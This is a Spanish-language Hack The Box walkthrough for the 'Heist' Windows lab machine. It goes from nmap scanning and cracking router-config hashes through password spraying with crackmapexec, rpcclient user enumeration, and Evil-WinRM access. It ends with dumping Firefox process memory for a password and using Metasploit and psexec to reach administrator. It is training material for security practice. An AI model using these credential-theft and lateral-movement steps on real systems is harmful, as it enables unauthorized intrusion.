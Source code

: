 ## HTB-Heist
- Maquina: **Windows**
- Level: **Easy**
- IP: **10.10.10.149**

## Herramientas a utilizar:
- nmap
- jhon = John the Ripper
-   https://packetlife.net/toolbox/type7/
-   https://github.com/Hackplayers/evil-winrm
-   https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
- crackmapexec
- smbmap
- sysinternals
- metaexploit
- psexec.p

```
nmap -sC -sV -o scan_heist.txt 10.10.10.149
```
Encontraremos los siguiente puertos abierto.

|PORT|STATE|SERVICE|VERSION|
|---|---|---|---|
|80/tcp|open| http|Microsoft IIS httpd 10.0
|135/tcp|open|msrpc| Microsoft Windows RPC
|445/tcp|open|microsoft-ds?|

Primero iniciaremos a enumerar por el puerto 80
```
http://10.10.10.149/
```
Aqui tenemos un login, pero si nos fijamos bien, tenemos un acceso de invitado, podemos llegar a
```
http://10.10.10.149/attachments/config.txt
```
Este archivo contiene la configuracion de un router en el cual veremos varios users y password.

|1| secret 5 |$1$pdQG$o8nrSzsGXeaduXrjlvKc91
|----|----|----|
|2| username rout3r password 7 |0242114B0E143F015F5D1E161713 
|3| username admin privilege 15 password 7 |02375012182C1A1D751618034F36415408

Con el primero intentaremos Crakear el password creamos un archivo `hashespass.txt` y en el colocamos: `enable_secret:$1$pdQG$o8nrSzsGXeaduXrjlvKc91` Ahora utilizamos **John the Ripper** y el Direccionario **rockyou.txt**
```
john --wordlist=/usr/share/wordlists/rockyou.txt hashespass.txt
```
Nuestro resultado sera: **stealth1agent**    (enable_secret)

Con los demas iremos al siguiente Web: https://packetlife.net/toolbox/type7/
El resultado sera:

|user| password|
|---|---|
|rout3r| $uperP@ssword
|admin |Q4)sJu\Y8qz*A3?d

Colocamos todos los usuario en **user.txt** y los password en **pass.txt**

Utilizaremos `crackmapexec` con los archivos **user.txt** y **pass.txt**
```
crackmapexec smb 10.10.10.149 -u user.txt -p pass.txt
```

De los resultado de crackmapexec tenemos que:
SUPPORTDESK [+] **SupportDesk\hazard:stealth1agent**


Ahora utilizaremos **smbmap** para ver que tipo de privilegios tenemos con **hazard**
```
smbmap -H 10.10.10.149 -u hazard -p stealth1agent
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445	Name: heist.htb
	Disk                                      	Permissions
	----                                      	-----------
	ADMIN$                                    	NO ACCESS
	C$                                        	NO ACCESS
	IPC$                                      	READ ONLY
```

Notamos que solo tenemos acceso **read only** remote **IPC$**
```
rpcclient -U 'hazard%stealth1agent' 10.10.10.149
rpcclient $> lookupnames hazard
```
Nuestro output sera: 
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
```
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
```
Ahora tenemos el siguiente output
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)

Con el SID intentaremos listar los usuarios.
```
rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c 'lookupsids S-1-5-21-4254423774-1266059056-3197185112-1000'
```
Si todo va bien tenemos una output: S-1-5-21-4254423774-1266059056-3197185112-1000 *unknown*\*unknown* (8)

Por lo que ahora haremos una funcion para ver todo los posible SID y removiendo los unknown.
```
for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
```

Con esto veremos 2 usuarios **Chase** y **Jason** los agregaremos a `user.txt`
Utilizaremos `crackmapexec` otra vez con los archivos **user.txt** y **pass.txt**
```
crackmapexec smb 10.10.10.149 -u user.txt -p pass.txt
```
Y veremos que el usuario **Chase:`Q4)sJu\Y8qz*A3?d`**

Utilizaremos **Evil-WinRM**, pero en mi caso particular lo utilice de la siguiente manera
con `gem install winrm winrm-fs colorize stringio`
```
ruby evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -p 'Q4)sJu\Y8qz*A3?d'
```

Ahora tenemos acceso a heist con el usuario **chase**
Enumeracion y encontramos que en 
```
C:\inetpub\wwwroot> 
```
Existe dos archivos `error.php` y `login.php` 
```
En login.php vemos:
hash: 91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040
user: admin@support.htb
```
Colocamos el hash en `hash_admin.txt` y utilizamos John otra vez
```
john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt hash_admin.txt
```
y Esto no funciono 🤷‍♂️

Aqui solo puedo decir que despues de Mucho buscar en internet he intentar y intentar

Volvi Heist con la session de Chase y me puse a buscar en los procesos

C:\Program Files> 
Ejecutamos **Get-Process**

Vi que Firefox se estaba ejecutando.

|408|31|17404|63308|2.17|2768|1| firefox|
|--|--|--|--|--|--|--|--|
|390 | 32|    43244|      75072|      57.30|   **4728**|   1| firefox
|358 |     27|    16364|      37608|       0.58|   6808|   1| firefox
|1151|      70|   132720|     204480|      28.55|   6924|   1| firefox
|343 |     20|     9976|      37300|       0.33|   7052|   1| firefox
    
Por lo que descargue `systeminternal` desde https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
```
unzip sysinternals-suite
```
Volvemos acceder a heist con el usuario chase y subimos el `procdump64.exe`
```
upload procdump64.exe
.\procdump64.exe -accepteula
.\procdump64.exe -ma 4728 <4728 es el id_proc firefox que encontramos>.
```
Esto genera un archivo **firefox.exe_`fechayhora`.dmp** el cual deberemos descargar.
En nuestro caso fue:
```
download firefox.exe_2102209_003234.dmp
```
Mientras se esta descargado con otra shell vamos hacer la siguiente busqueda.
```
strings firefox.exe_210209_003234.dmp |grep admin@support.htb
```

Y con esto veremos password del **admin@support.htb** actualizamos los archivo user.txt con **admin@support.htb** y el **pass.txt** con las password que encontramos volvemos a probar con `crackmapexec`
```
crackmapexec smb 10.10.10.149 -u user -p pass
```

Si por alguna razon no tienes el resultado utilizando el proceso de Firefox, puede utilizar el siguiente mentodo.
```
msfconsole
use auxiliary/scanner/winrm/winrm_login
set pass_file /home/r0ok1e/Downloads/htb/machine/heist/pass.txt
set user_file /home/r0ok1e/Downloads/htb/machine/heist/user.txt
set rhost 10.10.10.149
run
```
Y aqui veremos que funciona user/pass chase y el del administrator

Para poder acceder con esta nuevas credenciales utilizaremos `PSEXEC`.
```
locate psexec.p
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.149
```

Listo, solo es ir a Desktop del administrator y tenemos root.txt y nuestra flag
